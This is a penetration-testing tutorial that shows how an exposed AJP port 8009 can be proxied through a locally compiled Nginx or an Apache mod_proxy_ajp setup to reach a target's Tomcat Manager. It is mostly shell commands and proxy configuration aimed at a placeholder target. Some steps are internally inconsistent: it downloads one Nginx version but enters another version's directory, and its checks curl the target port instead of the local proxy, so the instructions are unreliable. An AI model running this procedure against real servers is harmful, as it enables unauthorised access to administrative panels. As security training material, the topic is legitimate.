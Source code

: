According to Apache, [AJP](https://cwiki.apache.org/confluence/display/TOMCAT/Connectors) (or JK) is a wire protocol. It is an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat. Historically, Apache has been much faster than Tomcat at serving static content. The idea is to let Apache serve the static content when possible but proxy the request to Tomcat for Tomcat-related content.

When we come across an open AJP proxy port (8009 TCP), we can use Nginx with the `ajp_module` to access the "hidden" Apache Tomcat Manager, giving access to administrative panels, applications, and websites that would be otherwise inaccessible.
## Initial Setup
First we have to create a file called `tomcat-users.xml` with the following content:
```xml
<tomcat-users>
	<role rolename="manager-gui"/>
	<role rolename="manager-script"/>
	<user username="tomcat" password="secret" roles="manager-gui,manager-script"/>
</tomcat-users>
```
Then make sure we have Docker installed, once confirmed, spin up a Docker instance.
```bash
sudo docker run -it --rm -p 8009:8009 -v `pwd`/tomcat-users.xml:/usr/local/tomcat/conf/tomcat-users.xml --name tomcat "tomcat:8.0"
```
## Nginx Reverse Proxy and AJP
Next, we need to download the Nginx source code and the AJP module
```bash
wget https://nginx.org/download/nginx-1.21.3.tar.gz
git clone https://github.com/dvershinin/nginx_ajp_module.git

tar -xzvf nginx-1.21.3.tar.gz
```
Then we need to compile the source code with the AJP module
```bash
cd nginx-1.23.1
sudo apt install libpcre3-dev
./configure --add-module=`pwd`/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules
make
sudo make install
```
Next we edit the `/etc/nginx/conf/nginx.conf` and comment out the entire `server` block and append the following lines inside the `http` block:
```conf
upstream tomcats {
	server <TARGET_SERVER>:8009;
	keepalive 10;
}
server {
	listen 80;
	location / {
		ajp_keep_conn on;
		ajp_pass tomcats;
	}
}
```
Then we simply start Nginx and confirm everything is working correctly by using cURL
```bash
sudo nginx
curl <TARGET_SERVER>:8009
```
## Apache Reverse Proxy and AJP
The same technique can also be done using Apache. First, we install and enable all required modules.
```bash
sudo apt install libapache2-mod-jk
sudo a2enmod proxy_ajp
sudo a2enmod proxy_http
```
Then we configure the `/etc/apache2/sites-available/ajp-proxy.conf`
```bash
export TARGET="<TARGET_SERVER>"
echo -n """<Proxy *>
Order allow,deny
Allow from all
</Proxy>
ProxyPass / ajp://$TARGET:8009/
ProxyPassReverse / ajp://$TARGET:8009/""" | sudo tee /etc/apache2/sites-available/ajp-proxy.conf
sudo ln -s /etc/apache2/sites-available/ajp-proxy.conf /etc/apache2/sites-enabled/ajp-proxy.conf
```
Then we simple start Apache and confirm everything is working correctly by using cURL
```bash
sudo systemctl start apache2
curl <TARGET_SERVER>:8009
```